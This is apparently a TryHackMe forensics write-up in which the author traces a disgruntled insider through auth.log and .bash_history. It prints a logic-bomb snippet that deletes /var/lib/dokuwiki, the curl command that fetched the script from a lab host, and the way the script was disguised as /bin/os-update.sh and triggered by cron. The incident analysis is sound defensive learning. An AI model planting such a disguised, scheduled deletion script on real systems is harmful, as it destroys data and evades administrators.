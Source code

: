 # Disgruntled
A TryHackMe box focusing on Linux forensics.

This box is created around the scenario of a disgruntled IT user conducting suspicious activity on the network. My job is to discover what they did and stop it. 

### 1. What commands did they run?

The user installed a package on the machine with elevated privledges. In order to find out what commands they ran I will be looking in the authentication logs or auth.log located in /var/log.

<p><span style="color:red"><em>cat auth.log | grep -i COMMAND</em></span></p>

The package they installed was named dokuwiki, which is an opensource wiki software written in PHP. The present owkring directory was /home/cybert. This user also created a user and a script file. This information can still be gathered by using the command above. 

```
User created - it-admin
Date sudo was given - Dec 28 06:27:34
Script file name - bomb.sh
```
To find more information on bomb.sh, I will be looking in the .bash_history file. The command used to created the file was curl 10.10.158.38:8080/bomb.sh --output bomb.sh. the file was then renamed and moved to the /bin folder as "os-update.sh". Fle contents below.  
```
if [ -z "$OUTPUT" ]; then
        rm -r /var/lib/dokuwiki
        echo -e "I TOLD YOU YOU'LL REGRET THIS!!! GOOD RIDDANCE!!! HAHAHAHA\n-mistermeist3r" > /goodbye.txt
fi
```
This file appears to delete service files if triggered. We can also see from the .bash_history, that the file was scheduled in crontab to go off at 08:00 as well.  
```
# History of marks within files (newest to oldest):

> /bin/os-update.sh
*16722089880
"60
root@ip-10-10-28-147:/home/it-admin# cat .bash_history 
whoami
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
ls
ls -la
cd ~/
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
sudo vi bomb.sh
ls
rm bomb.sh
sudo nano /etc/crontab
exit
```

After finding out all of that information we can succesfuly close the incident! 

TLDR : analyzed a machine to discover a disgruntled user downloaded a script that would delete all the files installed with a service if the use has not logged in to this machine in 30 days, a perfect example of a logic bomb. 

